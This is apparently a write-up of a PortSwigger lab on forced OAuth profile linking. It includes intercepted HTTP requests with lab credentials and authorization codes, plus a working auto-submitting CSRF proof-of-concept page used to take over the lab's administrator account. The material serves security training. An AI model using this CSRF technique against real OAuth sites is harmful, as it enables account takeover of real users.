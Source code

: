## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b27eec88-6295-4475-b757-2150fd794978)

## Solution :

So as per the lab desc, we have these 2 information

- Blog website account: `wiener:peter`
- Social media profile: `peter.wiener:hotdog`
- The admin user will open anything we send from the exploit server and they always have an active session on the blog website.

### Recon 

The login page has an option to login via traditional username:password & also an option to login via social media !

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a639c66d-b2e1-43b0-b2eb-94067b4f73f0)

First login as wiener, we have this option to attach our social media handle.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4f2274ce-7171-4538-93b8-1a1154b4540d)

On clicking **Attach a social profile**, the client application sends a *Authoriation request* to the Oauth identity provider.

```http
GET /auth?client_id=zd0z0mcs05h6xy1izs6qs&redirect_uri=https://0a2600ea040904c4826f158800f4006c.web-security-academy.net/oauth-linking&response_type=code&scope=openid%20profile%20email HTTP/2
Host: oauth-0acb00670438047f820f135d028000c6.oauth-server.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: https://0a2600ea040904c4826f158800f4006c.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
```
Now the Oauth service redirects us to the social media login page & asks us for username and password.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/09eea3bc-0ac7-417f-9806-17092344680a)

The request sent is as follows,

```http
POST /interaction/h_HZHJFwu5SNlmERnvvAu/login HTTP/1.1
Host: oauth-0afa007604f736b180a029a002b300ad.oauth-server.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://oauth-0afa007604f736b180a029a002b300ad.oauth-server.net
Connection: close
Referer: https://oauth-0afa007604f736b180a029a002b300ad.oauth-server.net/interaction/h_HZHJFwu5SNlmERnvvAu/login
Cookie: _interaction=h_HZHJFwu5SNlmERnvvAu
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

username=peter.wiener&password=hotdog
```
Now it asks for our consent to accept the information that will be used.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b0338393-521a-4008-9b4b-ac304ca13104)

The next follow-up *GET* request to **/oauth-linking** contains the `?code=` parameter which contains the **Authorization token**.

```http
GET /oauth-linking?code=eWEB9aYNxO0Ls88fGmWdu1vQEG_JsniFHJ4kvpIRf2f HTTP/1.1
Host: 0a2600ea040904c4826f158800f4006c.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2600ea040904c4826f158800f4006c.web-security-academy.net/
Connection: close
Cookie: session=Z5diXRZYGorFvLSQFaLVfzZdRHtnzitH
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
```
Once the flow is over, we have added our social media account & now we can login to our account via social media.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b5d393c5-c4ef-41a6-ac7a-7eba442d9716)

### Exploitation 

Since the Oauth flow for adding social media to our account **doesn't have any `state=` parameter, we can perform a csrf attack to link somebody else's social media to our account.**

#### Steps -

1. Login as wiener.
2. Click add social media option & intercept the request flow.
3. Intercept the request after entering consent to permissions that were required. A *GET* request to `/oauth-linking?code=<value>` is sent. Drop the particular request so that the code is fresh and not used by wiener.
4. Create a CSRF POC for the request containing the authorization code.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a81007904223666800f2b9b00a500ae.web-security-academy.net/oauth-linking">
      <input type="hidden" name="code" value="n4hzKYNoh4upso6bDZys&#95;fjVFI6zf&#45;MURAjNHLutcrP" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

5. Send the exploit to admin via the exploit server.
6. Now logout and login via **Login with social media** option.

We have now successfullt logged in as **administrator**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/889d7f6a-3b09-403c-981b-093dd1abb833)

Click on the admin panel and delete the user carlos to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c66f51c2-c321-45dc-9f76-c8f0d60ebe72)
